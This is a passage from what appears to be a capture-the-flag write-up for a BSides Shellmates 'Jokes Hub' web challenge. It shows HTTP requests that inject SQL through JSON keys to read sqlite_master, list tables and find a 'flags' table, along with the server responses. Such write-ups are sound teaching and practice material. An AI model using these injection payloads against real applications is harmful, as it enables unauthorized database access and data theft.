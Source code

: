 So, it's an sqlite database.

2. get information of database table :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Accept-Language: en-US,en;q=0.9
Connection: close

{"sql FROM sqlite_master WHERE type = 'table' AND name = 'jokes';--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 03:42:58 GMT
content-type: application/json
content-length: 154
connection: close

{"result":"CREATE TABLE jokes\n                 (id INTEGER PRIMARY KEY AUTOINCREMENT,\n                  joke TEXT,\n                  punchline TEXT)"}
```

3. Get list of tables :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Connection: close

{"name FROM sqlite_master WHERE type='table' ORDER BY name;--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 03:46:03 GMT
content-type: application/json
content-length: 19
connection: close

{"result":"flags"}
```

4. Get infos about flags table :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Connection: close

{"sql FROM sqlite_master WHERE type = 'table' AND name = 'flags';--":100}
```
